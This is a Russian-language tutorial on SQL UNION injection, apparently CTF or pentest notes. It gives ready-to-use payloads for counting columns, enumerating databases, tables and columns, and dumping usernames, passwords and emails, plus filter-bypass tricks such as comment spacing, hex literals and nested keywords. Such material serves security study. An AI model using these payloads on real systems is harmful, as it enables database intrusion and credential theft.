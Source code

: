 # SQL UNION Injection

### Общее представление об атаке SQL UNION Injection

Реализуется в случае, если результаты SQL-запроса возвращаются в ответе приложения. Ответы могут быть разными: ошибки приложения, ошибки сервера, результаты запросов и другие.

**Оператор UNION позволяет запускать один и более SELECT-запросов. Например:**

```sql
SELECT a, b FROM table1 UNION SELECT c, d FROM table2
```

Данный SQL-запрос вернет один ответ с двумя столбцами, содержащими значения из столбцов a и b в table1 и столбцов c и d в table2.

**Чтобы успешно выполнить атаку, необходимо знать:**

* Сколько столбцов возвращается из исходного запроса
* Тип данных каждого столбца

### **Определение количества столбцов:**

Есть два способа определения количества столбцов: через `ORDER BY` и `UNION SELECT`.

**Первый способ** - `ORDER BY`:

```sql
' ORDER BY 1 -- - (200 OK)
' ORDER BY 2 -- - (200 OK)
' ORDER BY 3 -- - (200 OK)
' ORDER BY 4 -- - (500 ERROR)
```

В таблице 3 столбца, так как `' ORDER BY 4` выдает ошибку.

**Второй способ** - `UNION SELECT`:

```sql
' UNION SELECT NULL-- (500 ERROR)
' UNION SELECT NULL,NULL -- - (500 ERROR)
' UNION SELECT NULL,NULL,NULL -- - (200 OK)
' UNION SELECT NULL,NULL,NULL,NULL -- - (500 ERROR)
```

Перебираем NULL, пока не получим 200 ОК, т.к. без ошибок

<mark style="color:green;">**Используем NULL, потому что NULL подходит для всех типов данных.**</mark>

### **Определение типа данных каждого столбца:**

```
' UNION SELECT 'a',NULL,NULL,NULL --
' UNION SELECT NULL,'a',NULL,NULL --
' UNION SELECT NULL,NULL,'a',NULL -- 
```

### **Использование внутренних функций базы данных**:

Когда мы знаем количество столбцов, мы можем сделать данную вещь:

```sql
' UNION SELECT version(),null,null -- -
```

Ответ может быть примерно таким(вместо вывода имени пользователя выводится результат функции `version()`):

```
(...)
Sorry, 8.0.27-0ubuntu0.20.04.1 you are not eligible due to already qualifying.
(...)
```

### **Некоторые функции из MySQL:**

```
@@hostname - имя хоста
@@tmpdir - директория /tmp/
@@datadir - директория /data
@@version - версия БД
@@basedir - базовая директория
user() - имя пользователя
database() - база данных
version() - версия
schema() - база данных
UUID() - системный UUID ключ
current_user() - текущий пользователь
current_user - текущий пользователь
system_user() - системный пользователь
session_user() - сессионый пользователь
@@GLOBAL.have_symlink - проверка на включенные/отключенные символьные ссылки
@@GLOBAL.have_ssl - проверка на SSL
```

### Последовательность действий для выполнения успешной атаки

* Определяем количество столбцов
* Определяем тип данных каждого столбца
* Выводим все базы данных:

```sql
1337'union select group_concat(schema_name),NULL,NULL from information_schema.schemata -- -
```

* Выводим все таблицы из базы данных database1

```sql
1337'union select group_concat(table_name),NULL,NULL from information_schema.tables where table_schema='database1' -- -
```

* Выводим все колонки из таблицы `table1`, которая находится в базе данных `database1`:

```sql
1337'union select group_concat(column_name),NULL,NULL from information_schema.columns where table_schema='database1' and table_name='table1' -- -
```

* Выводим все данные `username`, `password`, `email` из таблицы `table1`, которая находится в базе данных `database1`:

```sql
1337'union select group_concat("\n", username,":",password,":",email,"\n"),NULL,NULL from database1.table1
```

**1337 -** например, параметр id, но важно, чтобы такого значения не было в таблице (или можно использовать -1).

## Обход фильтров

### Запрещено \[ , ' ( ) + = \ " ] + и пробел:

```sql
SELECT * FROM age WHERE age=$age
```

Вместо пробела можно использовать `/**/`, а вместо `where name='b548d45080b9d110'` использовать `where name like 0x62353438643435303830623964313130`:

```sql
1337/**/union/**/select/**/*/**/from/**/flags/**/where/**/name/**/like/**/0x62353438643435303830623964313130
```

### Запрещено все, кроме символов: a-z A-Z 0-9 ' ( ) , ] + и обход защиты от select:

```sql
SELECT * FROM age WHERE age=$age
```

Так как в таблице очень много флагов и нам нужен флаг с `name`=`3f1a76e536a0a805`, то нужно указать фильтр вывода, например, `where name='3f1a76e536a0a805'`, но знак `=` запрещен, следовательно можно использовать `LIKE` вместе с хексовым значением `name`:

```sql
1337 union Select null,name,flag From flags where name like 0x33663161373665353336613061383035
```

### Запрещено все, кроме символов: a-z A-Z 0-9 ' ( ) \* и обход защиты от select:

```sql
SELECT * FROM age WHERE age=$age
```

Так как мы не можем перебрать количество колонок через `union select null,<null>,<...>`, то можно это сделать через JOIN AS:

```sql
1337 union Select * from flag JOIN (Select 'qwe') as a
```

Ответ:

```sql
MySQL error: The used SELECT statements have a different number of columns
```

Пробуем добавить еще одну колонку:

```sql
1337 union Select * from flag JOIN (Select 'qwe') as a JOIN (Select 'qwe') as b
```

И в ответе мы получаем флаг

### Запрещен SELECT полностью:

```sql
SELECT * FROM age WHERE age=$age
```

Можно использовать SELSELECTECT, если фильтры единоразово вырезают SELECT без цикла:

```sql
1337 union SELSELECTECT null,null,flag from flag
```

